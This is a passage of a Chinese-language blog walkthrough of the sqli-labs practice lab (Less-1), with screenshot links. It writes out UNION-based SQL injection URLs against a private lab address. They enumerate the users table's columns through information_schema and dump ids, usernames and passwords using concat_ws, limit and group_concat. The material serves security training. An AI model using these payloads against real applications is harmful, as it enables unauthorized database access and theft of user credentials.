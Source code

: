 <img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_19.png" />

在数据库中查看没有出入：

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_20.png" />

接下来就是查询users表中的列：（users的信息比较重要）

`http://172.16.60.103/sql-labs/Less-1/?id=-1' union select 1,2,column_name from information_schema.columns where table_schema ='security' and table_name='users' limit 1,2%23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_21.png" />

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_22.png" />

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_23.png" />

在数据库中查询没有出入：

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_24.png" />

在这里面，最重要的就是 username，password了

然后继续选择出来里面的值:

构造：

 `http://172.16.60.103/sql-labs/Less-1/?id=-1' union select 1,2,concat_ws(char(32,58,32),id,username,password) from users limit 0,1%23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_25.png" />

依次对应的是：id，账户，密码

然后使用limit全部列出即可;

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_26.png" />

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_27.png" />

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_28.png" />

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_29.png" />

太多了。。。我就不列举了

或者是使用另外一种方法可以使用group分组取代limit将所有的信息列出来

如下：   使用group_concat()

`http://172.16.60.103/sql-labs/Less-1/?id=-1' union select 1,2,group_concat(char(32),username,char(32)) from users limit 0,1%23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_30.png" />

这个时候就可以列出所有的账号了。。。
